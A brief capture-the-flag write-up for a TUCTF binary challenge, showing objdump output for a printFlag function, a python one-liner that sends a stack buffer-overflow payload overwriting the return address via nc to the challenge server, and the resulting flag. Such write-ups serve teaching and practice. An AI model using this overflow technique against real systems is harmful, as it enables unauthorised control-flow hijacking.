

# Challenge #
 
  
# Solution #
<pre>
objdump -d ./thefirst
	080491f6 <printFlag>
	
python -c 'print "AAAAAAAAAAAABBBBCCCCDDDD"+ "\xf6\x91\x04\x08"' | nc chal.tuctf.com 30508

TUCTF{0n3_d0wn..._50_m4ny_70_60}
</pre>

